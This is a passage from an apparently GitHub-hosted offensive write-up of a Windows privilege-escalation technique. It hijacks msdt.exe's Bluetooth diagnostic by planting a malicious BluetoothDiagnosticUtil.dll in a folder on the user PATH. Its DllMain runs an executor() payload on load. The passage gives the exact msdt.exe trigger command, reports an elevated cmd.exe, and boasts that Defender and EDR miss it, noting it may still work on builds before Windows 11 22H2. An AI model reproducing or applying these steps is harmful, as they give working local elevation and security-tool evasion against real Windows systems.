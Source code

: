 ```cpp
    }


BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        executor();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

Once we compile that, be sure to place it in a folder included in your USER ENVIRONMENT **%PATH%** variable of your choosing. I chose `c:\myfolder\BluetoothDiagnosticUtil.dll`

Let's run our full command and see what happens:

`c:\windows\syswow64\msdt.exe -path C:\WINDOWS\diagnostics\index\BluetoothDiagnostic.xml -skip yes`

![image](https://github.com/user-attachments/assets/2085b7c2-dabe-4b8b-82a9-fb466ee77f4d)

First off, we get the elevated msdt.exe:

![image](https://github.com/user-attachments/assets/f8dfe3ca-5099-4621-a7f4-b03aca7a4fb7)

Next, we see our newly spawned cmd.exe!

![image](https://github.com/user-attachments/assets/d27a4ce8-6cb4-4756-9c94-ee9a7e68764e)

And the final picture 😸

![image](https://github.com/user-attachments/assets/bfabeb25-a36e-4adb-aaa0-3fb0a7cfad63)

GAME OVER!  not too bad huh?  also Defender never made a peep.  This bypasses EDR with a breeze.  That's it!

<hr>

> Everything below this line is deprecated as far as anything > Windows 11 22h2.  I'd assume OSes < Windows 11 22H2 are still game 😸

<hr>

**Video Proof of Concept:**

<iframe width="560" height="315" src="https://www.youtube.com/embed/6J2p9Ve3DIE?si=pJyLIygaSSfaipOW" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>
